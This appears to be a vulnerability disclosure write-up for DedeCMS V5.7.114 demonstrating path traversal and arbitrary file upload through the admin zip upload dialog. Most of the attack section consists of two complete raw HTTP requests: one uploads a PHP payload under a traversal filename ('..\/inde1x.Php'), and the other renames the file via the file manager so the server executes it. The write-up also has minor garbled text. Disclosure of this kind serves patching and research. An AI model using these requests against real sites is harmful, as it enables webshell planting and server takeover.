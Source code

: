 # Dedecms Path traversal+arbitrary file upload(other enter)

​	The zip compression file upload function of the Dreamweaver backend software manager has vulnerabilities such as path traversal and arbitrary file upload

![image-20240708130926507](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitTwo.assets/image-20240708130926507.png)

​	E: \ seebug \ php study_p is the root directory of my current web integration environment deployment. The current project is deployed in the 127.0.0.1-9600 folder under the WWW path.This time I chose E:\seebug\phpstudy_pro\WWW\127.0.0.1_9600\uploads\soft as the destination path for file upload, because PHP scripts can be parsed in this fileWS

​	visit http://127.0.0.1:9600/dede/ And log in to the backend of dedecms to create a new atlas list http://127.0.0.1:9600/dede/album_add.php The interface is shown below

![image-20240712135020653](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitTwo.assets/image-20240712135020653.png)	The vulnerability mainly appears at the compressed file upload location

![image-20240712135159882](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitTwo.assets/image-20240712135159882.png)

```http
POST /include/dialog/select_soft_post.php HTTP/1.1
Host: 127.0.0.1:9600
Content-Length: 733
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:9600
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGneeoYoNcoA3cyfK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:9600/include/dialog/select_soft.php?f=form1.zipfile
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9fvqmoiniui5peunoom189bb23; _csrf_name_2f6ef1b1=251b7a78446c8135eb4f76930f45203f; _csrf_name_2f6ef1b11BH21ANI1AGD297L1FF21LN02BGE1DNG=dc1e3af496636f6e; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1ebb58ecac915613; DedeLoginTime=1720410513; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=51a7f7470e41e0c9
Connection: close

------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="activepath"

/uploads/soft
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="f"

form1.zipfile
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="job"

upload
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="uploadfile"; filename="try.zip"
Content-Type: application/x-zip-compressed

<?php echo 123;?>
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="newname"

..\/inde1x.Php
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="sb1"

确定
------WebKitFormBoundaryGneeoYoNcoA3cyfK--

```

​	Select_Soft_post.chp did not perform sufficient filtering on the newname parameter, so it is possible to bypass the file suffix blacklist by modifying the value of newname to a file name with the suffix 'php', in conjunction with the previous two path traversal vulnerabilities, to achieve arbitrary file upload vulnerabilities

![image-20240708123702680](Ehttps://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitOne.assets/image-20240708123702680.png)

![image-20240708132915068](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitOne.assets/image-20240708132915068.png)

​	The uploaded files may not be able to run directly, and there may be a possibility that the uploaded files cannot be parsed, because by default, the Apache environment combined with the PHP environment can only parse `. php ` files, and configuration files such as `. htaccess ` can be uploaded.

![image-20240708133005172](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitOne.assets/image-20240708133005172.png)

​	Here, you can also use the built-in file management system in the 'dedecms' backend to rename files and enable them to parse and run normally.

```http
POST /dede/file_manage_control.php HTTP/1.1
Host: 127.0.0.1:9600
Content-Length: 139
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:9600
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: iframe
Referer: http://127.0.0.1:9600/dede/file_manage_view.php?fmdo=rename&filename=inde1x.Php&activepath=%2Fuploads
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=9fvqmoiniui5peunoom189bb23; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1ebb58ecac915613; DedeLoginTime=1720410513; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=51a7f7470e41e0c9; _csrf_name_2f6ef1b1=267c4d98da681002ab955b10f8e0e3c3; _csrf_name_2f6ef1b11BH21ANI1AGD297L1FF21LN02BGE1DNG=1d4b8a59aa88baa3; ENV_GOBACK_URL=%2Fdede%2Fmedia_main.php%3Fdopost%3Dfilemanager
Connection: close

fmdo=rename&activepath=%2Fuploads%2Fsoft&filename=inde1x.Php&oldfilename=inde1x.Php&newfilename=index1.php&imageField1.x=31&imageField1.y=6
```

​	Here, we will attempt to retrieve the 'index1x.Php' from the '/uploads/soft' path Rename the file to 'index1.php'`

![image-20240708133049094](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitTwo.assets/image-20240708133049094.png)

![image-20240708133101827](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitOne.assets/image-20240708133101827.png)

​	Accessing the file again successfully parsed and ran the 'PHP' file

![image-20240708133140911](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitOne.assets/image-20240708133140911.png)

